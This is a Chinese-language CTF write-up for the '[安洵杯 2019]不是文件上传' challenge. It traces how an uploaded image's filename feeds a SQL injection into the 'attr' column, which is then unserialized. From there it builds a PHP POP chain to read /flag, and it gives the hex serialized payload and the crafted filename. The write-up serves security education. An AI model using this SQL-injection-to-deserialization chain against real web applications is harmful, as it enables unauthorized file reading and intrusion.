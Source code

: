 # [安洵杯 2019]不是文件上传
![](<./img/Pasted image 20230301002851.png>)

![](<./img/Pasted image 20230301003051.png>)

```php
public function view_files($path){
	if ($this->ifview == False){
		return False;
		//The function is not yet perfect, it is not open yet.
	}
	$content = file_get_contents($path);
	echo $content;
}
```

`helper.php`中存在`file_get_contents`，但是需要设置`ifview`为`true`，于是推测有可利用的反序列化漏洞

# 控制反序列化结果

```php
public function Get_All_Images(){
	$sql = "SELECT * FROM images";
	$result = mysqli_query($this->con, $sql);
	if ($result->num_rows > 0){
		while($row = $result->fetch_assoc()){
			if($row["attr"]){
				$attr_temp = str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]);
				$attr = unserialize($attr_temp);
			}
			echo "<p>id=".$row["id"]." filename=".$row["filename"]." path=".$row["path"]."</p>";
		}
	}else{
		echo "<p>You have not uploaded an image yet.</p>";
	}
	mysqli_close($this->con);
}
```

`shell.php`中对查询结果的`attr`列进行了反序列化

```php
public function insert_array($data)
{	
	$con = ...;
	$sql_fields = array();
	$sql_val = array();
	foreach($data as $key=>$value){
		$key_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $key);
		$value_temp = str_replace(chr(0).'*'.chr(0), '\0\0\0', $value);
		$sql_fields[] = "`".$key_temp."`";
		$sql_val[] = "'".$value_temp."'";
	}
	$sql = "INSERT INTO images (".(implode(",",$sql_fields)).") VALUES(".(implode(",",$sql_val)).")";
	mysqli_query($con, $sql);
	// ...
}
```

`helper.php`中`helper`类的`insert_array`方法存在对数据库的写入，方式是简单的字符串拼接

`insert_array`由`save`方法调用，而`save`又被`upload`调用

```php
public function upload($input="file")
{
	$fileinfo = $this->getfile($input);
	$array = array();
	$array["title"] = $fileinfo['title'];
	$array["filename"] = $fileinfo['filename'];
	$array["ext"] = $fileinfo['ext'];
	$array["path"] = $fileinfo['path'];
	$img_ext = getimagesize($_FILES[$input]["tmp_name"]);
	$my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
	$array["attr"] = serialize($my_ext);
	$id = $this->save($array);
}
```

可以看到`array["attr"]`为`my_ext`的序列化结果，而`my_ext`完全由图像的宽高决定

于是尝试对其它`array`的元素下手，利用上面发现的字符串拼接查询实现SQL注入对`attr`列任意写入

`array`的其它元素由`fileinfo`复制过来，而`fileinfo`由`getfile`方法获得

```php
public function getfile($input) => $this->check($_FILES[$input]);
public function check($info)
{
	$basename = substr(md5(time().uniqid()),9,16);
	$filename = $info["name"];
	$ext = substr(strrchr($filename, '.'), 1);
	$cate_exts = array("jpg","gif","png","jpeg");
	if(!in_array($ext,$cate_exts)){
		die("<p>Please upload the correct image file!!!</p>");
	}
	$title = str_replace(".".$ext,'',$filename);
	return array('title'=>$title,'filename'=>$basename.".".$ext,'ext'=>$ext,'path'=>$this->folder.$basename.".".$ext);
}
```

`'filename'=>$basename`，`basename`是随机生成，不可控

`'ext'=>$ext`，`ext`为上传文件后缀名，又有白名单检测，不可控

`'path'=>$this->folder.$basename`，保存目录名拼上随机生成文件名，不可控

`'title'=>$title`，`title`为上传文件名去掉后缀，可控

于是可以通过改变上传文件的文件名来控制写入`attr`列的内容

# POP链构造

```php
function __destruct(){
	# Read some config html
	$this->view_files($this->config);
}
```

`helper`直接存在一个`__destruct`魔术方法，设置`config`为`/flag`即可

```php
<?php

class helper {
    protected $ifview = true;
    protected $config = "/flag";
}
print bin2hex(serialize(new helper()));
```

得到

```
4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d
```

文件名

```
1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d),('1.jpg
```

![](<./img/Pasted image 20230301021418.png>)

```
/show.php
```

![](<./img/Pasted image 20230301021802.png>)

